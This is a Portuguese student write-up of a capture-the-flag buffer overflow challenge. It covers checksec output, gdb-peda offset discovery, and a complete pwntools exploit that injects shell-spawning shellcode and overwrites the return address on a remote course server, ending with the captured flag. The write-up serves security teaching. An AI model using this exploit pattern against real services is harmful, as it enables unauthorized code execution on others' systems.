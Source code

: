## Desafio 2
Repará-mos que o buffer tem tamanho 100 mas a função que lê o input permite ler mais que isso.

Fizemos checksec ao programa e recebemos o seguinte output:
```shell
[05/05/23]seed@VM:~/.../sem8$ checksec program
[*] '/home/seed/Desktop/SP/sem8/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Como o NX está desligado podemos correr código na stack e como o PIE está ligado os endereços de memória são diferentes a cada execução.

Para dar bypass ao PIE temos de reescrever o endereço de retorno para a base do buffer.

Para descobrir-mos em que posição está o EIP iniciamos uma shell gdb do programa:
```shell
[05/05/23]seed@VM:~/.../sem8$ gdb program
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
/opt/gdbpeda/lib/shellcode.py:24: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if sys.version_info.major is 3:
/opt/gdbpeda/lib/shellcode.py:379: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if pyversion is 3:
Reading symbols from program...
gdb-peda$
```

Depois criá-mos um padrão superior ao tamanho do buffer:
```
gdb-peda$ pattern create 115
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8'
```

Corremos o programa e demos-lhe como input o pattern que criámos:
```
gdb-peda$ run
Starting program: /home/seed/Desktop/SP/sem8/program 
Try to control this program.
Your buffer is 0xffffd130.
Give me your input:
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8'
```

Recebemos como output o seguinte:
```
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x6841414c ('LAAh')
ECX: 0xf7fb4580 --> 0xfbad2288 
EDX: 0xffffd1a5 --> 0x3cffff00 
ESI: 0xf7fb4000 --> 0x1e6d6c 
EDI: 0xf7fb4000 --> 0x1e6d6c 
EBP: 0x41374141 ('AA7A')
ESP: 0xffffd1a0 ("iAA8'")
EIP: 0x41414d41 ('AMAA')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414d41
[------------------------------------stack-------------------------------------]
0000| 0xffffd1a0 ("iAA8'")
0004| 0xffffd1a4 --> 0xffff0027 --> 0x0 
0008| 0xffffd1a8 --> 0xffffd23c --> 0xffffd3f5 ("SHELL=/bin/bash")
0012| 0xffffd1ac --> 0xffffd1c4 --> 0x0 
0016| 0xffffd1b0 --> 0xf7fb4000 --> 0x1e6d6c 
0020| 0xffffd1b4 --> 0xf7ffd000 --> 0x2bf24 
0024| 0xffffd1b8 --> 0xffffd218 --> 0xffffd234 --> 0xffffd3d2 ("/home/seed/Desktop/SP/sem8/program")
0028| 0xffffd1bc --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV 
0x41414d41 in ?? ()
gdb-peda$ 
```

Na primeira linha diz 'Segmentation fault' logo sabemos que ocorreu overflow.
Agora para descobrir a posição do EIP usamos o pattern search:
```
gdb-peda$ pattern search
Registers contain pattern buffer:
EBX+0 found at offset: 99
EBP+0 found at offset: 103
EIP+0 found at offset: 107
Registers point to pattern buffer:
[ESP] --> offset 111 - size ~5
Pattern buffer found at:
0x565595b1 : offset    0 - size  115 ([heap])
0xffffd131 : offset    0 - size  115 ($sp + -0x6f [-28 dwords])
References to pattern buffer found at:
0xffffd070 : 0x565595b1 ($sp + -0x130 [-76 dwords])
0xffffd06c : 0xffffd131 ($sp + -0x134 [-77 dwords])
0xffffd080 : 0xffffd131 ($sp + -0x120 [-72 dwords])
0xffffd0b0 : 0xffffd131 ($sp + -0xf0 [-60 dwords])
0xffffd0e0 : 0xffffd131 ($sp + -0xc0 [-48 dwords])
```

Vimos que segundo as informações que o pattern search nos deu o EIP está na posição 107.

Para testar se temos de começar a escrever na posição 107 criámos um pattern de 106 e corremos o programa com esse patern mais quatro B's que adicionamos no final:
```
gdb-peda$ pattern create 106
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7'
gdb-peda$ run
Starting program: /home/seed/Desktop/SP/sem8/program 
Try to control this program.
Your buffer is 0xffffd130.
Give me your input:
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7BBBB'
```
Recebemos o seguinte output:
```
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x6841414c ('LAAh')
ECX: 0xf7fb4580 --> 0xfbad2288 
EDX: 0xffffd1a0 --> 0x0 
ESI: 0xf7fb4000 --> 0x1e6d6c 
EDI: 0xf7fb4000 --> 0x1e6d6c 
EBP: 0x42374141 ('AA7B')
ESP: 0xffffd1a0 --> 0x0 
EIP: 0x27424242 ("BBB'")
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x27424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd1a0 --> 0x0 
0004| 0xffffd1a4 --> 0xffffd234 --> 0xffffd3d2 ("/home/seed/Desktop/SP/sem8/program")
0008| 0xffffd1a8 --> 0xffffd23c --> 0xffffd3f5 ("SHELL=/bin/bash")
0012| 0xffffd1ac --> 0xffffd1c4 --> 0x0 
0016| 0xffffd1b0 --> 0xf7fb4000 --> 0x1e6d6c 
0020| 0xffffd1b4 --> 0xf7ffd000 --> 0x2bf24 
0024| 0xffffd1b8 --> 0xffffd218 --> 0xffffd234 --> 0xffffd3d2 ("/home/seed/Desktop/SP/sem8/program")
0028| 0xffffd1bc --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x27424242 in ?? ()
```
Como podemos constatar na linha do EIP apenas foram lidos três B's logo a temos de começar a escrever na posição 108.

Criá-mos então o ficheiro exploit.py:
```python
from pwn import *
import re

from pwnlib.adb.adb import shell

e = context.binary = ELF("./program")
p = remote("ctf-sp.dcc.fc.up.pt",4001)

p.recvuntil("buffer is ")

stack_base = int(p.recv(10),16)

payload = asm(shellcraft.sh())

payload = payload.ljust(108,b'A')

payload += p32(stack_base)

p.sendlineafter("input:",payload)
p.interactive()
```

Ele funciona da seguinte maneira:
- A linha 13 vai buscar do buffer e coloca-a na variável "stack-base".
- A linha 15 coloca o shellcode no inicio do payload.
- A linha 17 coloca o shellcode enche o payload de A's até à posição 108.
- A linha 19 coloca o endereço do inicio do buffer no endereço de retorno.

Depois foi só correr o exploit.py na shell e fazer cat do ficheiro flag.txt que estava no working directory.
```
[05/05/23]seed@VM:~/.../sem8$ python3 exploit.py
[*] '/home/seed/Desktop/SP/sem8/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to ctf-sp.dcc.fc.up.pt on port 4001: Done
exploit.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("buffer is ")
/home/seed/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py:823: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode

$ cat flag.txt
flag{55dabbcb020a08c6fb70dd7279d4a1dc}
```
